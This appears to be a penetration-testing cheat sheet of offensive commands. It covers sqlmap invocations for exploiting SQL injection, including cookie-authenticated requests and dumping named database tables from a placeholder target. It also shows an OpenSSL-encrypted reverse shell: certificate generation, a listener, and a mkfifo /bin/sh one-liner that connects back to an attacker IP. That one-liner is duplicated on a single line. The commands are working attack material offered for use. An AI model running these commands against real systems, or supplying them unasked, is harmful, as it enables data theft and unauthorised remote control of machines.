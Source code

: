 


##  SQLMap

##  Easy mode:
sqlmap --wizard


##  you need to authenticate before 
##  you can access vulnerable parameter.
##  Capture request with burp and save to request.txt:
sqlmap -r request.txt


##  grab cookie out of burp/proxy and insert into command line option:
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --cookie "PHPSESSIONID=1234example"


##  Dump:
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql -D databasename -T tablename --dump


##  Crawl:
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3




##  OpenSSL Encrypted Reverse Shell


##  Generate certificate:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes


##  Listener: 
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>


##  Reverse Shell:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s




